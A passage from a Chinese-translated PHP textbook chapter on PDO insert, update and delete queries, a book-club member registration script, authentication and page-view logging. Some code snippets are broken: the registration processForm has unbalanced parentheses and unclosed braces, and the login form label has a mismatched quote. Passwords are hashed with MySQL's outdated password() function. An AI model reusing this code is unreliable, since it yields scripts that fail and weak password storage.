那么如何在 PHP 脚本中插入记录呢？你以与传递 SELECT 语句类似的方式，通过 PDO 将 INSERT 语句传递给 MySQL。如果你不想从任何 PHP 变量传递数据，可以使用更简单的 PDO::query() 方法——例如：

```php
<?php
$dsn = "mysql:dbname=mydatabase";
$username = "root";
$password = "mypass";

try {
  $conn = new PDO( $dsn, $username, $password );
  $conn->setAttribute( PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION );
} catch ( PDOException $e ) {
  echo "Connection failed: " . $e->getMessage();
}

$sql = "INSERT INTO members VALUES ( 8, 'derek', password('mypass'), 'Derek',
  'Winter', '2008-06-25', 'm', 'crime', 'derek@example.com', 'Watching TV,
  motor racing' )";

try {
  $conn->query( $sql );
} catch ( PDOException $e ) {
  echo "Query failed: " . $e->getMessage();
}
?>
```

请注意，尽管 $conn->query() 调用仍然返回一个 PDOStatement 对象，但在这种情况下该对象会被丢弃。没有结果集可供检查，因此无需保留 PDOStatement 对象。

但是，你很可能确实想插入存储在 PHP 变量中的数据。例如，如果会员刚刚使用注册表单注册，你会希望将表单数据传递给 INSERT 语句以添加会员记录。最安全的方法是使用 PDO::prepare() 创建预处理语句，就像你在上一章处理 SELECT 查询时所做的那样。然后，你可以在查询字符串中为要插入的每个字段值使用占位符，并通过调用 PDOStatement::bindValue() 将数据传递给查询。例如：

```php
<?php
$dsn = "mysql:dbname=mydatabase";
$username = "root";
$password = "mypass";

try {
$conn = new PDO( $dsn, $username, $password );
$conn->setAttribute( PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION );
} catch ( PDOException $e ) {
echo "Connection failed: " . $e->getMessage();
}

$id = 8;
$username = "derek";
$password = "mypass";
$firstName = "Derek";
$lastName = "Winter";
$joinDate = "2008-06-25";
$gender = "m";
$favoriteGenre = "crime";
$emailAddress = "derek@example.com";
$otherInterests = "Watching TV, motor racing";

$sql = "INSERT INTO members VALUES ( :id, :username, password(:password),
:firstName, :lastName, :joinDate, :gender, :favoriteGenre, :emailAddress,
:otherInterests )";

try {
$st = $conn->prepare( $sql );
$st->bindValue( ":id", $id, PDO::PARAM_INT );
$st->bindValue( ":username", $username, PDO::PARAM_STR );
$st->bindValue( ":password", $password, PDO::PARAM_STR );
$st->bindValue( ":firstName", $firstName, PDO::PARAM_STR );
$st->bindValue( ":lastName", $lastName, PDO::PARAM_STR );
$st->bindValue( ":joinDate", $joinDate, PDO::PARAM_STR );
$st->bindValue( ":gender", $gender, PDO::PARAM_STR );
$st->bindValue( ":favoriteGenre", $favoriteGenre, PDO::PARAM_STR );
$st->bindValue( ":emailAddress", $emailAddress, PDO::PARAM_STR );
$st->bindValue( ":otherInterests", $otherInterests, PDO::PARAM_STR );
$st->execute();
} catch ( PDOException $e ) {
echo "Query failed: " . $e->getMessage();
}

?>
```

在这个示例中，变量值已在脚本中硬编码。在实际应用中，你当然会从脚本外部接收这些值，例如通过 `$_POST` 超全局数组中的提交表单值。

请记住，尽管使用预处理语句和占位符可以防范 SQL 注入攻击，但在对用户输入做任何操作（例如将其存储在数据库中）之前，你应始终检查或过滤用户输入。你可以在第 20 章中了解更多相关信息以及其他安全问题。

## 更新记录

如你在第 12 章中所见，可以使用 SQL UPDATE 语句修改现有表行中的数据：

```sql
mysql> UPDATE fruit SET name = 'grapefruit', color = 'yellow' WHERE id = 2;
Query OK, 1 row affected (0.29 sec)
Rows matched: 1 Changed: 1 Warnings: 0
```

```sql
mysql> SELECT * from fruit;
```

| id | 名称 | 颜色 |
|----|------|-------|
| 1 | 香蕉 | 黄色 |
| 2 | 葡萄柚 | 黄色 |
| 3 | 李子 | 紫色 |

3 行记录，耗时 0.00 秒

与插入新记录类似，通过 PHP 脚本更新记录的情况也很简单：如果在 UPDATE 语句中传递的是字面量值，则使用 PDO::query()；如果传递的是变量值，则使用带占位符的 PDO::prepare()。例如，以下脚本更改了上一节中添加的“Derek Winter”记录的电子邮件地址字段：

```php
<?php
$dsn = "mysql:dbname=mydatabase";
$username = "root";
$password = "mypass";

try {
$conn = new PDO( $dsn, $username, $password );
$conn->setAttribute( PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION );
} catch ( PDOException $e ) {
echo "Connection failed: " . $e->getMessage();
}

$id = 8;
$newEmailAddress = "derek.winter@example.com";

$sql = "UPDATE members SET emailAddress = :emailAddress WHERE id = :id";

try {
$st = $conn->prepare( $sql );
$st->bindValue( ":id", $id, PDO::PARAM_INT );
$st->bindValue( ":emailAddress", $newEmailAddress, PDO::PARAM_STR );
$st->execute();
} catch ( PDOException $e ) {
echo "Query failed: " . $e->getMessage();
}

?>
```

## 删除记录

通过 PHP 删除数据行的过程与更新类似。第 12 章向你展示了如何使用 SQL DELETE 关键字从表中删除行：

```sql
mysql> DELETE FROM fruit WHERE id = 2;
Query OK, 1 row affected (0.02 sec)
```

要使用 PHP 删除行，可以直接通过 PDO::query() 传递 DELETE 语句，或者使用带占位符的 PDO::prepare() 创建语句，并使用 PDOStatement::bindValue() 传递值（例如 WHERE 子句中的条件），再使用 PDOStatement::execute() 运行查询。

以下脚本从 members 表中删除 ID 为 8 的会员记录：

```php
<?php
$dsn = "mysql:dbname=mydatabase";
$username = "root";
$password = "mypass";

try {
  $conn = new PDO( $dsn, $username, $password );
  $conn->setAttribute( PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION );
} catch ( PDOException $e ) {
  echo "Connection failed: " . $e->getMessage();
}

$id = 8;

$sql = "DELETE FROM members WHERE id = :id";

try {
  $st = $conn->prepare( $sql );
  $st->bindValue( ":id", $id, PDO::PARAM_INT );
  $st->execute();
} catch ( PDOException $e ) {
  echo "Query failed: " . $e->getMessage();
}

?>
```

顺便说一句，你可以使用 PDOStatement::bindParam() 绑定变量本身，而不是使用 PDOStatement::bindValue() 将变量值绑定到占位符。如果在调用 bindParam() 后更改变量的值，占位符值会自动更新为新值（换句话说，变量是按引用绑定而非按值绑定）。如果在准备语句时不确定将传递什么值，这会很有用。有关 bindParam() 的更多信息，请参阅在线 PHP 手册：http://www.php.net/manual/en/pdostatement.bindparam.php。

## 构建会员注册应用程序

既然你知道如何通过 PHP 将记录插入 MySQL 表，就可以编写一个脚本，让新会员报名参加你的读书俱乐部。与其重新造轮子，不如基于你在第 13 章中创建的面向对象会员查看器应用程序进行扩展，扩展类以添加新功能，并创建一个脚本来注册新会员。

### 添加更多公共代码

首先，在 book_club 文件夹内的 common.inc.php 文件中添加一些额外的代码。在编辑器中打开此文件。

在此文件中，包含应用程序其余部分使用的其他公共文件是合理的。这样，脚本只需包含 common.inc.php，其他文件将自动包含。在 common.inc.php 文件的开头添加以下内容：

```php
require_once ("config.php");
require_once ("Member.class.php");
require_once ("LogEntry.class.php");
```

现在，在 displayPageHeader() 函数中的 CSS 声明里添加以下行：

```css
<style type="text/css">
th { text-align: left;
background-color: #bbb; }
th, td { padding: 0.4em; }
tr.alt td { background: #ddd; }
.error { background: #d33; color: white; padding: 0.2em; }
</style>
```

此行创建一个 CSS .error 类，用于突出显示注册表单中的任何问题。

最后，添加三个额外的实用函数，以帮助显示注册表单：

```php
function validateField( $fieldName, $missingFields ) {
if ( in_array( $fieldName, $missingFields ) ) {
echo ' class="error"';
}
}

function setChecked( DataObject $obj, $fieldName, $fieldValue ) {
if ( $obj->getValue( $fieldName ) == $fieldValue ) {
echo ' checked="checked"';
}
}

function setSelected( DataObject $obj, $fieldName, $fieldValue ) {
if ( $obj->getValue( $fieldName ) == $fieldValue ) {
echo ' selected="selected"';
}
}
```


你可能从第 9 章认出这些函数（尽管它们已略作修改）。validateField() 检查提供的字段名是否在用户忘记填写的字段列表中。如果是，则会输出 class="error" 属性，该属性会将缺失字段以红色突出显示。

与此同时，setChecked() 和 setSelected() 分别输出用于预选复选框和预选菜单中选项的标记。这两种方法都期望一个派生自 DataObject 类的对象（例如 Member 对象）、要查找的字段名称以及要比较的值。如果提供的值与对象中字段的值匹配，则会输出标记。这些函数在注册表单中用于帮助预填表单字段，如你稍后将看到。

## 增强 Member 类

接下来要做的是向 Member 类添加更多功能。首先，添加几个额外方法用于从数据库中检索 Member 对象。getByUsername() 检索提供的用户名对应的成员，getByEmailAddress() 检索给定电子邮件地址对应的成员。这些方法将用于确保潜在成员不会意外注册已存在于数据库中的用户名或电子邮件地址。

打开在第 13 章中创建的 Member.class.php 文件，并在现有的 getMember() 方法之后将以下代码添加到文件中：

```php
public static function getByUsername( $username ) {
$conn = parent::connect();
$sql = "SELECT * FROM ". TBL_MEMBERS . " WHERE username = :username";
try {
$st = $conn->prepare( $sql );
$st->bindValue( ":username", $username, PDO::PARAM_STR );
$st->execute();
$row = $st->fetch();
parent::disconnect( $conn );
if ( $row ) return new Member( $row );
} catch ( PDOException $e ) {
parent::disconnect( $conn );
die( "Query failed: " . $e->getMessage() );
}
}
public static function getByEmailAddress( $emailAddress ) {
$conn = parent::connect();
$sql = "SELECT * FROM ". TBL_MEMBERS . " WHERE emailAddress = :emailAddress";
try {
$st = $conn->prepare( $sql );
$st->bindValue( ":emailAddress", $emailAddress, PDO::PARAM_STR );
$st->execute();
$row = $st->fetch();
parent::disconnect( $conn );
if ( $row ) return new Member( $row );
} catch ( PDOException $e ) {
parent::disconnect( $conn );
die( "Query failed: " . $e->getMessage() );
}
}
```

这些方法不言自明。你可以看到，它们的工作方式与你在上一章中创建的 getMember() 大致相同。

接下来，添加一个简短的 getGenres() 方法，它只检索私有 $_genres 数组属性中的值。这将用于显示一个供潜在成员选择的类型列表。将其插入到类文件中现有 getFavoriteGenreString() 方法的正下方：

```php
public function getGenres() {
return $this->_genres;
}
```

到目前为止，该类包含用于从成员表中检索成员记录的方法。现在你将添加一个新方法 insert()，它将向表中添加一个新成员。将以下代码添加到类文件末尾，就在关闭类的花括号之前：

```php
public function insert() {
$conn = parent::connect();
$sql = "INSERT INTO ". TBL_MEMBERS . " (
username,
password,
firstName,
lastName,
joinDate,
gender,
favoriteGenre,
emailAddress,
otherInterests
) VALUES (
:username,
:password,
:firstName,
:lastName,
:joinDate,
:gender,
:favoriteGenre,
:emailAddress,
:otherInterests
)";
try {
$st = $conn->prepare( $sql );
$st->bindValue( ":username", $this->data["username"], PDO::PARAM_STR );
$st->bindValue( ":password", $this->data["password"], PDO::PARAM_STR );
$st->bindValue( ":firstName", $this->data["firstName"], PDO::PARAM_STR );
$st->bindValue( ":lastName", $this->data["lastName"], PDO::PARAM_STR );
$st->bindValue( ":joinDate", $this->data["joinDate"], PDO::PARAM_STR );
$st->bindValue( ":gender", $this->data["gender"], PDO::PARAM_STR );
$st->bindValue( ":favoriteGenre", $this->data["favoriteGenre"],
PDO::PARAM_STR );
$st->bindValue( ":emailAddress", $this->data["emailAddress"],
PDO::PARAM_STR );
$st->bindValue( ":otherInterests", $this->data["otherInterests"],
PDO::PARAM_STR );
$st->execute();
parent::disconnect( $conn );
} catch ( PDOException $e ) {
parent::disconnect( $conn );
die( "Query failed: " . $e->getMessage() );
}
}
```

如果你一直跟随前面几章和本章的内容，这里应该不会有任何意外。insert() 构建一个 SQL 语句，将当前 Member 对象中存储的数据插入数据库。请注意，该语句不尝试为 id 字段插入值，因为该值由 MySQL 自动生成。

然后该方法使用 PDO::prepare() 准备语句，将每个占位符绑定到 Member 对象的 $data 数组属性中的相应值，并通过调用 PDOStatement::execute() 执行语句。如果插入过程中出现任何问题，则会捕获并显示异常，且应用程序退出。

## 创建注册脚本

现在你已将所需功能添加到公共代码文件和 Member 类文件中，可以构建注册脚本本身了。将以下代码保存为 book_club 文件夹中的 register.php：

```php
<?php

require_once( "common.inc.php" );

if ( isset( $_POST["action"] ) and $_POST["action"] == "register" ) {
processForm();
} else {
displayForm( array(), array(), new Member( array() ) );
}

function displayForm( $errorMessages, $missingFields, $member ) {
displayPageHeader( "Sign up for the book club!" );

if ( $errorMessages ) {
foreach ( $errorMessages as $errorMessage ) {
    echo $errorMessage;
}
} else {
?>
<p>Thanks for choosing to join our book club.</p>
<p>To register, please fill in your details below and click Send Details.</p>
<p>Fields marked with an asterisk (*) are required.</p>
<?php } ?>
<form action="register.php" method="post" style="margin-bottom: 50px;">
<div style="width: 30em;">
<input type="hidden" name="action" value="register" />
<label for="username"<?php validateField( "username", $missingFields ) ?>>Choose a username *</label>
<input type="text" name="username" id="username" value="<?php echo $member->getValueEncoded( "username" ) ?>" />
<label for="password"<?php if ( $missingFields ) echo ' class="error" ' ?>>Choose a password *</label>
<input type="password" name="password1" id="password1" value="" />
<label for="password2"<?php if ( $missingFields ) echo ' class="error" ' ?>>Retype password *</label>
<input type="password" name="password2" id="password2" value="" />
<label for="emailAddress"<?php validateField( "emailAddress", $missingFields ) ?>>Email address *</label>
<input type="text" name="emailAddress" id="emailAddress" value="<?php echo $member->getValueEncoded( "emailAddress" ) ?>" />
<label for="firstName"<?php validateField( "firstName", $missingFields ) ?>>First name *</label>
<input type="text" name="firstName" id="firstName" value="<?php echo $member->getValueEncoded( "firstName" ) ?>" />
<label for="lastName"<?php validateField( "lastName", $missingFields ) ?>>Last name *</label>
<input type="text" name="lastName" id="lastName" value="<?php echo $member->getValueEncoded( "lastName" ) ?>" />
<label<?php validateField( "gender", $missingFields ) ?>>Your gender: *</label>
<label for="genderMale">Male</label>
<input type="radio" name="gender" id="genderMale" value="m"<?php setChecked( $member, "gender", "m" ) ?> />
<label for="genderFemale">Female</label>
<input type="radio" name="gender" id="genderFemale" value="f"<?php setChecked( $member, "gender", "f" ) ?> />
<label for="favoriteGenre">What's your favorite genre?</label>
<select name="favoriteGenre" id="favoriteGenre" size="1">
<?php foreach ( $member->getGenres() as $value => $label ) { ?>
<option value="<?php echo $value ?>"<?php setSelected( $member, "favoriteGenre", $value ) ?>><?php echo $label ?></option>
<?php } ?>
</select>

<label for="otherInterests">What are your other interests?</label>
<textarea name="otherInterests" id="otherInterests" rows="4" cols="50"><?php echo $member->getValueEncoded( "otherInterests" ) ?></textarea>

<div style="clear: both;">
<input type="submit" name="submitButton" id="submitButton" value="Send Details" />
<input type="reset" name="resetButton" id="resetButton" value="Reset Form" style="margin-right: 20px;" />
</div>

</div>
</form>
<?php
displayPageFooter();
}
```

```php
function processForm() {
$requiredFields = array( "username", "password", "emailAddress",
    "firstName", "lastName", "gender" );
$missingFields = array();
$errorMessages = array();

$member = new Member( array(
    "username" => isset( $_POST["username"] ) ? preg_replace( "/[^\ \-\_a-zA-Z0-9]/", "", $_POST["username"] ) : "",
    "password" => isset( $_POST["password1"] ) and isset( $_POST["password2"] ) and $_POST["password1"] == $_POST["password2"] ) ? preg_replace( "/[^\ \-\_a-zA-Z0-9]/", "", $_POST["password1"] ) : "",
    "firstName" => isset( $_POST["firstName"] ) ? preg_replace( "/[^\ \-\_a-zA-Z0-9]/", "", $_POST["firstName"] ) : "",
    "lastName" => isset( $_POST["lastName"] ) ? preg_replace( "/[^\ \-\_a-zA-Z0-9]/", "", $_POST["lastName"] ) : "",
    "gender" => isset( $_POST["gender"] ) ? preg_replace( "/[^mf]/", "", $_POST["gender"] ) : "",
    "favoriteGenre" => isset( $_POST["favoriteGenre"] ) ? preg_replace( "/[^a-zA-Z]/", "", $_POST["favoriteGenre"] ) : "",
    "emailAddress" => isset( $_POST["emailAddress"] ) ? preg_replace( "/[^\ \@\.\\_a-zA-Z0-9]/", "", $_POST["emailAddress"] ) : "",
    "otherInterests" => isset( $_POST["otherInterests"] ) ? preg_replace( "/[^\ \'\,\.\-\a-zA-Z0-9]/", "", $_POST["otherInterests"] ) : "",
    "joinDate" => date( "Y-m-d" )
) );

foreach ( $requiredFields as $requiredField ) {


```php
if ( !$member->getValue( $requiredField ) ) {
    $missingFields[] = $requiredField;
}
if ( $missingFields ) {
    $errorMessages[] = '<p class="error">There were some missing fields
in the form you submitted. Please complete the fields highlighted below and
click Send Details to resend the form.</p>';
}
if ( !isset( $_POST["password1"] ) or !isset( $_POST["password2"] ) or
    !$_POST["password1"] || !$_POST["password2"] || ( $_POST["password1"] !=
    $_POST["password2"] ) ) {
    $errorMessages[] = '<p class="error">Please make sure you enter your
password correctly in both password fields.</p>';
}
if ( Member::getByUsername( $member->getValue( "username" ) ) ) {
    $errorMessages[] = '<p class="error">A member with that username
already exists in the database. Please choose another username.</p>';
}
if ( Member::getByEmailAddress( $member->getValue( "emailAddress" ) ) ) {
    $errorMessages[] = '<p class="error">A member with that email address
already exists in the database. Please choose another email address, or
contact the webmaster to retrieve your password.</p>';
}
if ( $errorMessages ) {
    displayForm( $errorMessages, $missingFields, $member );
} else {
    $member->insert();
    displayThanks();
}
function displayThanks() {
    displayPageHeader( "Thanks for registering!" );
?>
<p>Thank you, you are now a registered member of the book club.</p>
<?php
    displayPageFooter();
}
?>
```

再说一遍，你大概能从第9章的registration.php脚本中认出这个脚本的总体结构。主要区别在于，这个脚本包含额外的错误检查，而且它还会创建新成员记录（第9章的脚本只是显示一条感谢消息）。

首先，脚本包含必需的common.inc.php文件，然后检查注册表单是否已提交。如果已提交，它会调用processForm()来处理表单数据。否则，它会通过调用`displayForm()`来显示表单，并传入两个空数组和一个空的`Member`对象。（稍后你就会明白它为什么要这样做。）

`displayForm()`函数，顾名思义，处理注册表单的显示。它期望三个参数：

- `$errorMessages` 是一个数组，包含要显示给用户的任何错误消息
- `$missingFields` 是用户未填写的任何必填字段的列表
- `$member` 是一个`Member`对象，包含用户迄今输入的任何数据，用于在需要显示错误时预填表单字段。（这让你了解面向对象编程的灵活性——脚本不仅将`Member`类用于数据库访问，还用于在表单提交之间保存临时成员数据。）

该函数显示页面页眉，如果`$errorMessages`中包含任何错误消息，则将这些消息显示在页面顶部。否则，会显示一条欢迎消息。

接下来，输出表单本身。这与第9章中的`registration.php`表单工作方式类似。每个字段都会显示，并在适当的时候调用`validateField()`来突出显示缺少的必填字段。通过调用`$member->getValueEncoded()`来检索存储在`$member`对象中的先前输入的值，以预填充字段的值。在性别复选框的情况下，会调用`setChecked()`来预选相应的复选框。对于`favoriteGenre()`下拉菜单，使用`setSelected()`来预选正确的选项。

表单还包含一个隐藏字段`action`，其值为"`register`"。脚本顶部的`if`语句使用它来确定表单是否已提交。

表单显示完毕后，通过调用`displayPageFooter()`输出页面页脚。

`processForm()`处理验证和存储提交的表单数据。首先，该函数设置一个`$requiredFields`数组，用于存储必填表单字段的列表，以及两个空数组：`$missingFields`用于存储用户未填写的任何必填字段，`$errorMessages`用于存储要显示给用户的任何错误消息。

接下来，该函数从`$_POST`数组中读取九个表单字段值——`username`、`password1`、`password2`、`firstName`、`lastName`、`gender`、`favoriteGenre`、`emailAddress`和`otherInterests`——并将其存储在新的`Member`对象中。对于每个字段，它会检查该字段是否存在于`$_POST`数组中；如果存在，则通过适当的正则表达式进行过滤，以删除任何潜在的危险字符，并将其存储在`Member`对象中。如果字段不存在，则改为存储空字符串("")。

*要了解正则表达式，请参阅第18章；要了解输入过滤，请参阅第20章。*

对于`password1`和`password2`字段，脚本检查两个字段是否都已填写且值是否匹配。如果是，则将`password1`的值存储在`Member`对象的`password`字段中。否则，存储空字符串：

```
"password" => ( isset( $_POST["password1"] ) && isset( $_POST["password2"] )
and $_POST["password1"] == $_POST["password2"] ) ? preg_replace( "/[^\\_a-zA-Z0-9]/", "", $_POST["password1"] ) : "",
```

还要注意，`Member`对象的`joinDate`字段已设置：

```
"joinDate" => date( "Y-m-d" )
```

PHP的`date()`函数用于生成表示当前日期的字符串，格式为YYYY-MM-DD。然后将该字符串存储在`joinDate`字段中，反映会员完成注册的日期。

你可以在第16章了解更多关于`date()`的信息。

现在，`Member`对象已创建并用提交的表单数据填充，脚本会对数据执行各种检查。首先，它会遍历必填字段名称列表；如果某个必填字段未填写，则将其字段名称添加到`$missingFields`数组中：

```
foreach ( $requiredFields as $requiredField ) {
    if ( !$member->getValue( $requiredField ) ) {
        $missingFields[] = $requiredField;
    }
}
```

如果遇到任何缺少的字段，则会将适当的错误消息添加到`$errorMessages`数组中：

```
if ( $missingFields ) {
    $errorMessages[] = '<p class="error">There were some missing fields in the
    form you submitted. Please complete the fields highlighted below and click
    Send Details to resend the form.</p>';
}
```

如果输入的密码不匹配，或者输入的用户名或电子邮件地址已被占用，也会创建错误消息。对于用户名检查，会使用输入的用户名调用`Member::getByUsername()`；如果它返回一个`Member`对象，脚本就知道用户名已被占用并生成错误消息。同样，对于电子邮件地址，会调用`Member::getByEmailAddress()`来确定输入的电子邮件地址的会员是否已存在于数据库中。

最后，如果引发了任何错误消息，脚本会调用`displayForm()`向用户重新显示表单，并传入错误消息列表、缺少的字段列表（如果有）以及包含用户已输入数据的已填充`Member`对象，以便在表单中重新显示。另一方面，如果提交的数据正确，则会通过调用`Member`对象的`insert()`方法在members表中创建会员记录：

```
if ( $errorMessages ) {
    displayForm( $errorMessages, $missingFields, $member );
} else {
    $member->insert();
    displayThanks();
}
```

脚本中的最终函数`displayThanks()`只是显示一条感谢消息，感谢会员注册。

## 测试应用程序

创建register.php脚本后，打开Web浏览器并输入脚本的URL来测试注册流程。尝试在表单中输入一些值并提交它，看看会发生什么。图14-1显示了脚本的运行情况；在这个示例中，用户忘记输入电子邮件地址。请注意，脚本还会提示他们重新输入密码（在表单中重新显示已输入的密码永远不是个好主意）。


图 14-1

你现在已将图书俱乐部应用程序扩展为允许新会员注册俱乐部。在此过程中，你学习了如何使用PHP和PDO向members表添加新会员记录。

## 创建会员专区

既然会员可以为你的图书俱乐部注册了，你将在网站上为他们提供一个会员专区，他们可以使用它来查看即将举行的活动、查看当前阅读列表等等。出于本章的目的，你的会员专区将只包含一些虚拟页面，但希望


当你读完本章时，如果愿意，你将掌握向成员专区添加一些现实世界功能的技能。

成员需要登录才能访问成员专区，因此你将创建一个脚本让他们实现这一功能。该过程包括显示登录表单，请求他们的用户名和密码。当他们提交表单时，你将其详细信息与成员表中的记录进行核对。如果匹配，你显示欢迎页面，欢迎他们进入成员专区；否则提示他们检查登录详细信息并重试。

同样，你将创建一个脚本，允许成员从成员专区登出。

对于成员专区内的每个页面，你将加入代码以检查他们是否已登录，如果未登录，则将其重定向到登录页面。同时，你将增强 LogEntry 类，以便应用程序可以将成员专区内的页面浏览记录到 accessLog 数据库表中。

## 为 Member 类添加身份验证方法

首先要做的事。为了使成员能够登录到成员专区，你需要向 Member 类添加一个方法，该方法检查成员提供的用户名和密码以确保其正确。登录脚本将在稍后使用此方法来在成员登录时对其进行身份验证。

打开 Member.class.php 文件，将以下 authenticate() 方法添加到类的末尾，紧跟在现有 insert() 方法之后：

```
public function authenticate() {
    $conn = parent::connect();
    $sql = "SELECT * FROM " . TBL_MEMBERS . " WHERE username = :username
    AND password = password(:password)";

    try {
        $st = $conn->prepare( $sql );
        $st->bindValue( ":username", $this->data["username"], PDO::PARAM_STR );
        $st->bindValue( ":password", $this->data["password"], PDO::PARAM_STR );
        $st->execute();
        $row = $st->fetch();
        parent::disconnect( $conn );

        if ( $row ) return new Member( $row );
    } catch ( PDOException $e ) {
        parent::disconnect( $conn );
        die( "Query failed: " . $e->getMessage() );
    }
}
```

此方法获取对象 username 和 password 字段中存储的用户名和密码，并在成员表中查找具有该用户名和密码的记录。请注意，查询使用 MySQL 的 password() 函数对密码进行加密；表中存储的密码已加密，因此对象中存储的纯文本密码需要加密，以便与表中的密码进行比较。

如果找到与用户名和密码匹配的记录，则该记录作为新 Member 对象返回。否则，不返回任何内容。

## 增强 LogEntry 类以记录页面浏览

每次成员在成员专区中查看页面时，你都将在 accessLog 表中记录该事件。为此，你需要向 LogEntry 类添加一个方法。打开 LogEntry.class.php 文件，将以下 record() 方法添加到类的末尾，位于 getLogEntries() 方法之后：

```
public function record() {
    $conn = parent::connect();
    $sql = "SELECT * FROM " . TBL_ACCESS_LOG . " WHERE memberId = :memberId
    AND pageUrl = :pageUrl";
    try {
        $st = $conn->prepare( $sql );
        $st->bindValue( ":memberId", $this->data["memberId"], PDO::PARAM_INT );
        $st->bindValue( ":pageUrl", $this->data["pageUrl"], PDO::PARAM_STR );
        $st->execute();
        if ( $st->fetch() ) {
            $sql = "UPDATE " . TBL_ACCESS_LOG . " SET numVisits = numVisits + 1
            WHERE memberId = :memberId AND pageUrl = :pageUrl";
            $st = $conn->prepare( $sql );
            $st->bindValue( ":memberId", $this->data["memberId"], PDO::PARAM_INT );
            $st->bindValue( ":pageUrl", $this->data["pageUrl"], PDO::PARAM_STR );
            $st->execute();
        } else {
            $sql = "INSERT INTO " . TBL_ACCESS_LOG . " ( memberId, pageUrl,
            numVisits ) VALUES ( :memberId, :pageUrl, 1 ) ";
            $st = $conn->prepare( $sql );
            $st->bindValue( ":memberId", $this->data["memberId"], PDO::PARAM_INT );
            $st->bindValue( ":pageUrl", $this->data["pageUrl"], PDO::PARAM_STR );
            $st->execute();
        }
        parent::disconnect( $conn );
    } catch ( PDOException $e ) {
        parent::disconnect( $conn );
        die( "Query failed: " . $e->getMessage() );
    }
}
```

record() 方法获取对象 memberId 和 pageUrl 数据字段中存储的成员 ID 和页面 URL，并使用它们在 accessLog 表中记录页面浏览。如果表中已为该特定成员和页面存在一行，则其 numVisits 字段会通过 UPDATE 语句递增。如果该行不存在，则通过 INSERT 语句将其创建，并将 numVisits 设置为 1。

## 添加更多公共代码

由于成员专区页面将位于读书俱乐部文件夹内的子文件夹中，你需要修改 `common.inc.php` 中的 `displayPageHeader()` 函数，以便在从成员专区内的页面调用时更改 `common.css` 样式表的 URL。将函数定义的第一行改为：

```
function displayPageHeader( $pageTitle, $membersArea = false ) {
```

现在，在函数中，将包含样式表的行改为：

```
<link rel="stylesheet" type="text/css" href="<?php if ( $membersArea )
echo "../" ?>../common.css" />
```

如果向函数传递第二个参数 `true`，这会在 `common.css` URL 中添加额外的 "../"。

接下来，添加一个函数来检查成员是否已登录。这将从成员专区中的每个页面调用。如果未登录的用户尝试访问成员专区中的页面，你希望将其重定向到登录页面。将以下 `checkLogin()` 函数添加到 `common.inc.php` 文件中现有 `setSelected()` 函数之后：

```
function checkLogin() {
    session_start();
    if ( !$_SESSION["member"] or !($_SESSION["member"] = Member::getMember( $_SESSION["member"]->getValue( "id" ) )) {
        $_SESSION["member"] = "";
        header( "Location: login.php" );
        exit;
    } else {
        $logEntry = new LogEntry( array (
            "memberId" => $_SESSION["member"]->getValue( "id" ),
            "pageUrl" => basename( $_SERVER["PHP_SELF"] )
        ) );
        $logEntry->record();
    }
}
```

此函数使用 `session_start()` 确保 PHP 会话处于活动状态，然后检查 `$_SESSION` 超全局数组中的 "member" 元素是否存储了一个 `Member` 对象；这表明成员已登录，如下一节所示。如果找到了 `Member` 对象，则通过调用 `Member::getMember()` 从数据库重新加载它。这不仅确保会话中的数据是最新的，还确保当前登录的成员确实存在于 `members` 表中（例如，如果成员在登录期间被删除了，则不应允许其继续使用系统）。

如果未找到 `$_SESSION` 元素，或其包含的 `Member` 对象不再存在于数据库中，则会清除 `$_SESSION` 元素（以避免再次查找成员），使用 PHP `header()` 函数将用户重定向到登录页面，并使用 PHP `exit` 命令退出应用程序（这防止任何受保护页面内容发送到浏览器）。如果找到了 `Member` 对象，则通过创建新的 `LogEntry` 对象，用登录成员的 ID 和当前页面 URL 填充它，并调用对象的 `record()` 方法来记录页面浏览。

页面 URL 从 $_SERVER 超全局数组的 "PHP_SELF" 元素中检索：

```
"pageUrl" => basename( $_SERVER["PHP_SELF"] )
```

$_SERVER 是另一个有用的超全局变量，类似于你在第 7 章和第 9 章中遇到的那些。它存储与 Web 服务器和脚本环境相关的各种值。"PHP_SELF" 元素存储当前页面相对于网站顶层的 URL。例如，如果查看 http://www.example.com/myscripts/script.php 处的 PHP 脚本，则 $_SERVER[ "PHP_SELF" ] 设置为 /myscripts/script.php。为此应用程序，你只想存储页面的文件名——例如 diary.php——因此使用 PHP 的 basename() 函数删除 URL 的路径部分。

你在第 10 章中研究了会话，将在第 16 章中更详细地了解 $_SERVER 超全局变量。

## 编写登录页面脚本

现在你已经更新了类和公共代码，可以创建显示和处理成员登录页面的脚本了。首先，在 book_club 文件夹中创建一个 members 文件夹；该文件夹不仅保存登录脚本，还保存成员专区的受保护页面。在此 members 文件夹中，创建以下脚本并将其命名为 login.php：

```
<?php
require_once( "../common.inc.php" );
session_start();

if ( isset( $_POST["action"] ) and $_POST["action"] == "login" ) {
    processForm();
} else {
    displayForm( array(), array(), new Member( array() ) );
}

function displayForm( $errorMessages, $missingFields, $member ) {
    displayPageHeader( "Login to the book club members' area", true );

    if ( $errorMessages ) {
        foreach ( $errorMessages as $errorMessage ) {
            echo $errorMessage;
        }
    } else {
?>
<p>To access the members' area, please enter your username and password
below then click Login.</p>
<?php } ?>

<form action="login.php" method="post" style="margin-bottom: 50px;">
    <div style="width: 30em;">
        <input type="hidden" name="action" value="login" />

        <label for="username"><?php validateField( "username", $missingFields )
        ?>>Username</label>
```


```php
<input type="text" name="username" id="username" value="<?php
echo $member->getValueEncoded( "username" ) ?>" />
<label for="password"<?php if ( $missingFields ) echo ' class="error" ?>">Password</label>
<input type="password" name="password" id="password" value="" />
<div style="clear: both;">
<input type="submit" name="submitButton" id="submitButton"
value="Login" />
</div>
</form>
<?php
displayPageFooter();
}

function processForm() {
$requiredFields = array( "username", "password" );
$missingFields = array();
$errorMessages = array();

$member = new Member( array(
"username" => isset( $_POST["username"] ) ? preg_replace( "/[^ \\-_a-zA-Z0-9]/", "", $_POST["username"] ) : "",
"password" => isset( $_POST["password"] ) ? preg_replace( "/[^ \\-_a-zA-Z0-9]/", "", $_POST["password"] ) : "",
) );

foreach ( $requiredFields as $requiredField ) {
if ( !$member->getValue( $requiredField ) ) {
$missingFields[] = $requiredField;
}
}

if ( $missingFields ) {
$errorMessages[] = '<p class="error">There were some missing fields in
the form you submitted. Please complete the fields highlighted below and
click Login to resend the form.</p>';
